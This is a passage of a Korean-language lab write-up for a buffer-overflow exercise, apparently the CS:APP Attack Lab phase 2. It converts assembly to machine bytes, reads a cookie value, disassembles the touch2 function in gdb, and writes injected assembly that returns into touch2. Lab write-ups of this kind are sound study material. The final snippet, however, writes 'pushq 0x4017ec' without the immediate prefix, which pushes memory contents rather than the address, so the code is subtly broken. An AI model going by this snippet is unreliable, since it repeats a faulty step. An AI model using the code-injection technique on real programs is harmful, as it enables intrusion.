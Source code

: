 ```
0000000000000000 <.text>:
   0: 68 ef cd ab 00            pushq  $0xabcdef
   5: 48 83 c0 11               add    $0x11,%rax
   9: 89 c2                     mov    %eax,%edx
```

위를 보면 알 수 있듯이 example.s의 코드는 아래와 같다.

```
68 ef cd ab 00 48 83 c0 11 89 c2
```

이처럼 만들어진 코드를 가지고, 앞서 phase1.txt 같은 파일을 만들어주면 된다.

#### solve

어셈블리 코드를 기계어로 변환시키는 방법을 알았으므로 코드를 작성해야 한다.
지금부터 만들 코드는 val에 cookie를 넣어주고, touch2로 리턴해줘야 한다.
val이 첫 번째 변수이므로 이는 곧 %rdi에 cookie를 넣어주는 것과 같다.
이때 cookie는 cookie.txt 파일에 주소가 적혀있다.
cookie.txt 파일을 보면 "0x59b997fa"가 들어있다.

다음으로 touch2의 주소를 알기 위해 `disas touch2`를 실행하면 아래처럼 나온다.

```
(gdb) disas touch2
Dump of assembler code for function touch2:
   0x00000000004017ec <+0>:     sub    $0x8,%rsp
   0x00000000004017f0 <+4>:     mov    %edi,%edx
   0x00000000004017f2 <+6>:     movl   $0x2,0x202ce0(%rip)        # 0x6044dc <vlevel>
   0x00000000004017fc <+16>:    cmp    0x202ce2(%rip),%edi        # 0x6044e4 <cookie>
   0x0000000000401802 <+22>:    jne    0x401824 <touch2+56>
   0x0000000000401804 <+24>:    mov    $0x4030e8,%esi
   0x0000000000401809 <+29>:    mov    $0x1,%edi
   0x000000000040180e <+34>:    mov    $0x0,%eax
   0x0000000000401813 <+39>:    callq  0x400df0 <__printf_chk@plt>
   0x0000000000401818 <+44>:    mov    $0x2,%edi
   0x000000000040181d <+49>:    callq  0x401c8d <validate>
   0x0000000000401822 <+54>:    jmp    0x401842 <touch2+86>
   0x0000000000401824 <+56>:    mov    $0x403110,%esi
   0x0000000000401829 <+61>:    mov    $0x1,%edi
   0x000000000040182e <+66>:    mov    $0x0,%eax
   0x0000000000401833 <+71>:    callq  0x400df0 <__printf_chk@plt>
   0x0000000000401838 <+76>:    mov    $0x2,%edi
   0x000000000040183d <+81>:    callq  0x401d4f <fail>
   0x0000000000401842 <+86>:    mov    $0x0,%edi
   0x0000000000401847 <+91>:    callq  0x400e40 <exit@plt>
```

여기서 우리는 touch2의 주소가 0x4017ec라는 것을 알 수 있다.
이제 phase2.s 파일에 어셈블리 코드를 만들자.

```
// phase2.s
movq    $0x59b997fa, %rdi
pushq   0x4017ec
ret
```
